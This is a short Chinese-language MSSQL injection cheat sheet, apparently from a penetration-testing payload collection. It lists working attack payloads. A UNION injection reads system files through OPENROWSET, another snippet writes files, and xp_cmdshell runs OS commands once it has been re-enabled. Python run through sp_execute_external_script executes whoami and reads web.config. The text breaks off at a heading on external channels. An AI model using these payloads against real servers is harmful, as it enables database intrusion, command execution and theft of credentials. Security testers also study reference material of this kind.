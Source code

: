 ```sql
OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)
```

示例：

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

### MSSQL 写入文件

```sql
execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'
```

## MSSQL 命令执行

### XP_CMDSHELL

`xp_cmdshell` 是 Microsoft SQL Server 中的一个系统存储过程，允许你直接从 T-SQL（Transact-SQL）中运行操作系统命令。

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

如果需要重新激活 `xp_cmdshell`，它在 SQL Server 2005 中默认是禁用的。

```sql
-- 启用高级选项
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;

-- 启用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

### Python 脚本

> 由使用 `xp_cmdshell` 执行命令的不同用户执行

```powershell
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
```

## MSSQL 外部通道
